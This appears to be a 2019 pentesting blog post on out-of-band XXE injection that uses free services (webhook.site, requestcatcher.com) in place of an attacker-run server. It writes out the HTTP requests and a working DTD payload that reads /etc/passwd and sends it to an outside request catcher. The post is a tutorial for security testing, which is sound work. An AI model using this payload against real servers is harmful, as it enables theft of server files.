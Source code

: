 ```yaml
---
layout:     post
title:      "XML External Entity (XXE) Injection Without Personal Servers"
date:       2019-06-22
author:     "Tech"
header-img: "img/post-XXE-injection-without-personal-servers.jpeg"
tags:
    - Pentesting
    - XXE
---
```


## XML External Entity (XXE) Injection Without Personal Servers

--------

Most post I read online regarding XXEs introduce the idea of spinning up a quick webserver to deliver and recieve content. While testing out some XXEs vulnerabilities, I didn't have the luxury of port forwarding my network, or spinning up a digital ocean droplet. I found a clever way to still conduct my testing under these constraints that I'll be talking about in this post. 

---------

### What is XXE?

An XML External Entity (XXE) injection is a serious flaw that allows an attacker to read local files on the server, access internal networks, scan internal ports, or execute commands on a remote server. It targets applications that parse XMLs.

This attack occurs when an XML input containing references to an external entity is processed by a weakly configured XML parser. The attacker takes advantage of it by embedding malicious inline DOCTYPE definition in the XML data. When the web server processes the malicious XML input, the entities are expanded, which results in potentially gaining access to a web server's file system, remote file system access, or establishing  connections to arbitrary hosts over HTTP/HTTPS.



---------

### Post Request

I'll assume you already know that the framework your working is can accept XML entities.

We'll typically see a regular post request look like:

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: techryptic
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

Turning the above POST request into an XML request by removing some clutter, and changing the Content-type header.

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: techryptic
Connection: close
Content-Type: text/xml
Content-Length: 30

<?xml version="1.0"?>
<test>tested</test>
```

---------

### Serving the DTD

A "Valid" XML document is a "Well Formed" XML document, which also conforms to the rules of a DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "WEBSITE/test.dtd">
<test>&e1;</test>
```

The DOCTYPE declaration, in the example above, is a reference to an external DTD file.

In this case, we'll be supplying an external DTD. This is what spark the making of this post. Since I didn't want to setup port forward on my home network, or had any usable droplets from digital ocean on hand. The best way was to chain it with various online catchers.

---------
### Request Catcher

Just as the title says, the last request made will be set to [requestcatcher.com](requestcatcher.com). Set up a URL, in this case I set: 

> https://tech.requestcatcher.com

We'll inject this URL in the callback in the webhooking session. All in all, here is where we will see the contents of the command we used, in this case it's the contents of /etc/passwd on the webserver.

---------
### Webhooking

Example url: 
>webhook.site/aaf35306-2e6a
Be sure to use this URL in the 'Serving the DTD' section, replace WEBSITE/test.dtd with this URL.

I went with [https://webhook.site](https://webhook.site) for catching the test.dtd request. One great option is that your able to 'Edit' the URL information on this hook.

You'll want to insert the below into the Response body of the webhook.site site. Add in the Request Catcher URL from above to catch the response of the command.

```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://tech.requestcatcher.com?/test?%p1;'>">
%p2;
```
This DTD will force the XML parser to read the content of /etc/passwd and assigned it to the variable p1. Then it will create another variable p2 that contains a link to your malicious server and the value of p1. Finally it will print the value of p2 using the %p2.

---------
### Game Play

A quick break down:

We sent a post request calling out an external DTD (webhook.site), on the webhook site. On our webhook.site, we setup the response body to read the /etc/passwd file, and send those results to the request catcher website. The request catcher will read all request and print out what is shown. 

All in all:

![](/img/in-post/post-js-version/xxe-passwd.png)

---------
### Notes

You don't need to run with HTTPS for everything. I only got the above results after switching all URLs to http.

External Link with valuable Information:

>[https://pentesterlab.com/exercises/play_xxe](https://pentesterlab.com/exercises/play_xxe) 

---------
